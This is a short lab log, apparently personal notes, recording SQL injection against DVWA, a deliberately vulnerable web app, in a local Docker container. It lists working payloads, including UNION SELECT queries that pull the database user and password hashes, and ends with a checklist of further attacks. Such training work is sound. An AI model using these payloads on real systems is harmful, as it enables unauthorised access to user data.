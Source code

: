 # DVWA Docker Exploitation Log

## Setup Complete ✅
- **Container**: vulnerables/web-dvwa
- **URL**: http://localhost:8080
- **Login**: admin/password
- **Security Level**: Low

## SQL Injection Exploitation ✅
**Target**: http://localhost:8080/vulnerabilities/sqli/

### Successful Payloads:
1. `1'` - **Result**: MySQL error revealed
2. `1' OR '1'='1` - **Result**: All users displayed
3. `1' UNION SELECT user(), database()--` - **Result**: Database info extracted
4. `1' UNION SELECT user, password FROM users--` - **Result**: Password hashes extracted

### Extracted Information:
- Database: dvwa
- Users found: [List users you find]
- Password hashes: [List hashes you find]

## Next Targets:
- [ ] XSS (Reflected)
- [ ] XSS (Stored)  
- [ ] Command Injection
- [ ] File Upload
- [ ] Brute Force
